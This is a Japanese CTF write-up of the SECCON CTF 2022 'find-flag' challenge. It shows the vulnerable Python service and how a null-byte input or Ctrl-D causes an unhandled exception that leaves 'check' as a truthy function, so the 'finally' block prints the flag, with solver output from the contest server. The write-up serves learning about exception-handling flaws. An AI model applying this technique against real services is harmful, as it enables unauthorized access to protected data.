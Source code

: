 # SECCON CTF 2022

https://ctftime.org/event/1764

解けなかったため、復習用としてまとめました。

- [SECCON CTF 2022](#seccon-ctf-2022)
  - [misc/finding](#miscfinding)
    - [解放1](#解放1)
    - [解放2](#解放2)


## misc/finding

```python
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()

def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())

```

怪しいと思った点

- 環境変数が保存されているファイルがあれば、そこを読み取れば...?
- `check()`のExceptionが少ない気がする。


### 解放1

> check = check() となっている部分で、 check() で定義されていない Error で落ちると check に False を代入する処理がスキップされ、 check は関数のままになります。このとき bool(check) は True となります。何故か exit(1) を呼んだ後に finally 以下の処理がなされてから終了する挙動をしていたため、これでフラグが読み取れます。
条件を満たすエラーとして、入力を b"\x00" にしました。
https://blog.y011d4.com/20221113-seccon-ctf-writeup#find-flag


type命令を上に挟んでみました。

```python
def check():

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        print(type(check)) # check is a boolean or function
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

`<class 'function'>`とあるので、関数が帰ってきていることが再現できました。

```bash
% python3 solver.py    
[+] Starting local process './target': pid 74104
  conn.recvuntil("filename: ")
[+] Receiving all data: Done (68B)
[*] Process './target' stopped with exit code 0 (pid 74104)
b"[-] something went wrong\n<class 'function'>\n[+] congrats!\nSECCON{A}\n"
```

本番環境

```bash
$ python3 solver.py
[+] Opening connection to find-flag.seccon.games on port 10042: Done
  conn.recvuntil("filename: ")
[+] Receiving all data: Done (89B)
[*] Closed connection to find-flag.seccon.games port 10042
b'[-] something went wrong\n[+] congrats!\nSECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}\n'
```

```
SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}
```

### 解放2

Ctrl-Dで降ってきた

```bash
$ nc find-flag.seccon.games 10042
filename: [-] something went wrong
[+] congrats!
SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}
```